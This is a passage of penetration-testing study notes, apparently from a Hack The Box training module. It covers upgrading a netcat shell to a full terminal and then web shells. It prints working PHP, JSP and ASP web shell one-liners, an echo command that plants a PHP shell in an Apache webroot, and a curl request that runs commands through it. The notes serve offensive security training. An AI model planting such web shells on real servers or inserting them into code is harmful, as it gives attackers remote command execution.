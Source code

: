- We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:
```
secmancer@htb[/htb]$ echo $TERM

xterm-256color
```
```
secmancer@htb[/htb]$ stty size

67 318
```

- The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:
```
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```
- Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.


### Web Shell
- The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.
- First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:
```
<?php system($_REQUEST["cmd"]); ?>
```
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```
<% eval request("cmd") %>
```
- Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. 
- This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.
- However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:
![[Screenshot_20241107_124902.png]]
- We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:
```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
- Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command.
- Another option is to use `cURL`:
```
secmancer@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- As we can see, we can keep changing the command to get its output. 